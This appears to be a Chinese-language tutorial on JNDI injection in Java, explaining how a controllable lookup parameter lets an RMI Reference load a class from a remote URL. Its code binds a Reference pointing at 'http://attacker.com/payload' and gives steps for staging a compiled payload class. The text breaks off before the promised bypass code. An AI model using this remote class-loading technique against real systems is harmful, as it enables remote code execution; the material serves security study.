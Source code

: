 JNDI漏洞的核心在于lookup参数的可控性。当我们可以控制这个参数时，我们有机会传入Reference类型及其子类的对象。在远程调用类的过程中，JNDI服务首先会在RMI服务器的classpath中寻找对应的类。如果本地classpath中没有找到，它会尝试从提供的URL地址加载类。  
```
// 这里，我们构建了一个Reference，它指向一个远程的类
Reference ref = new Reference("someClassName", "someURL");
```  
  
如果JNDI服务在本地和远程都找不到对应的类，lookup调用就会失败。但是，如果我们可以控制这个URL，我们就有可能加载恶意的类，从而触发安全漏洞。  
  
为了利用这个漏洞，攻击者可能会：  
1. **控制lookup参数**：通过精心构造的输入，控制JNDI的lookup过程。  
  
1. **提供恶意的URL**：指向一个攻击者控制的服务器，该服务器上存放着恶意的类文件。  
  
1. **加载恶意类**：通过JNDI的远程类加载机制，加载并执行恶意的类。  
  
Server:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYY4zibz8NxFXouO0ms7DYrvIxzBjUViaQOCh4I6myMXxlfuYddaYJauUtA/640?wx_fmt=png "")  
  
在JNDI的探索中，我们构建了Reference对象，设定了恶意的类名和web服务的URL，然后将其绑定到注册表中：类似代码。。。  
```
Registry registry = LocateRegistry.createRegistry(1099);
Reference ref = new Reference("PayloadClass", "PayloadLocation", "http://attacker.com/payload");
registry.bind("jndi/payload", ref);
```  
  
ExecTest:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYxQLibpG7Jrb8ujhibsftibatQufpeZRF8efmVaibUjCFt3bOXfzLHMArFA/640?wx_fmt=png "")  
  
静态块中隐藏着我们的payload，一旦类被加载，它就会自动执行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYERv4zpll3pG8BicbxTJ36gPLGw2ibDvIJbF4tj9F2Hs2Bualg9SjL8bA/640?wx_fmt=png "")  
  
在D盘上，编译好的ExecTest.class文件静静躺着，Web服务已经启动，准备将这个字节码文件作为payload传递。  
```
// 编译ExecTest.java为1.5 JDK版本的字节码文件
javac -source 1.5 -target 1.5 ExecTest.java

// 删除本地的ExecTest.class，确保JNDI进行远程加载
delete ExecTest.class;

// 将ExecTest.class放置于D盘，并确保Web服务已开启
```  
  
Client：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYh510Tou8NXK42hdk35ARNJwuRCwRWyE8GC2aETupvBvAy7hTgCeeaA/640?wx_fmt=png "")  
  
启动服务器，执行客户端，以下是可能的输出：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYzwTQHX6ice8SdEN8InSnhXBfB6Kl3FG21bQicrDGQ3QYcGvqctuWlT0w/640?wx_fmt=png "")  
  
远程加载ExecTest.class文；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYe9IAuNjpzDBV73hrw1cnyJI2NbNONYEfn2ogjRiczia2AtcQoYL7z2Cw/640?wx_fmt=png "")  
在版本1.6及以下，成功执行命令后，若要绕过限制，需对应添加以下代码：  
  